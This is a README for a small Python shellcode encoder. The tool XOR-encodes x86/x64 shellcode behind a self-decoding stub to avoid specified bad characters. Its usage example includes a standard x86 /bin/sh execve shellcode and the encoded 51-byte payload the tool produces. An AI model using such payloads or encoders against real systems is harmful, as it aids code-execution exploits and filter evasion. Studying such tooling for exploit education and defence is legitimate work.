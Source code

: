# shellcode_encoder
Shellcode encoder is a simple python program made in order to create self-decoding shellcode using a xor encoder and a simple stub
It supports both x86 and x86-64 shellcode architecture and you can also precise a list of bytes the encoded shellcode shall not contain (bad chars)

## Requirements
* Python >= 3
* nasm
* objdump

## Installation
```bash
git clone https://github.com/Njord0/shellcode_encoder.git
chmod +x core.py
cd shellcode_encoder
```
And... you are ready to use it !

## Usage

You can display the help message using the -h flag:
```sh
./core.py -h

usage: Shellcode encoder [-h] [-b BAD_CHARS] [-a {x86,x64}]

Shellcode encoder - A simple shellcode encoder

optional arguments:
  -h, --help            show this help message and exit
  -b BAD_CHARS, --bad-chars BAD_CHARS
                        The list of unwanted characters, example: Must be in following format: "\x00\x0a\x0b"
  -a {x86,x64}, --arch {x86,x64}
                        The shellcode architecture, if not specified, architecture dection will be performed Supported arch: x86 x64

example: ./core.py -b "\x00\x11\x0b" --random <<< "shellcode_here"
```
Here is an example command with a x86 shellcode:

```sh
./core.py -b "\x00\x11\xa0" <<< "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"

[+] Shellcode architecture: x86
[+] Shellcode lenght: 23 bytes
[+] Working xor value: 1

[+] Stub size: 28 bytes
[+] Final size: 51 bytes

\xeb\x15\x5e\x31\xc0\x31\xdb\x31\xc9\xb3\x17\xb0\x01\x31\x04\x0e\x41\x39\xcb\x75\xf8\xff\xe6\xe8\xe6\xff\xff\xff\x30\xc1\x51\x69\x2e\x2e\x72\x69\x69\x2e\x63\x68\x6f\x88\xe2\x51\x52\x88\xe0\xb1\x0a\xcc\x81
```

As you can see `-a` option is not specified but the program was able to determine the architecture of the shellcode, the program is performing an architecture detection but it might not always work.
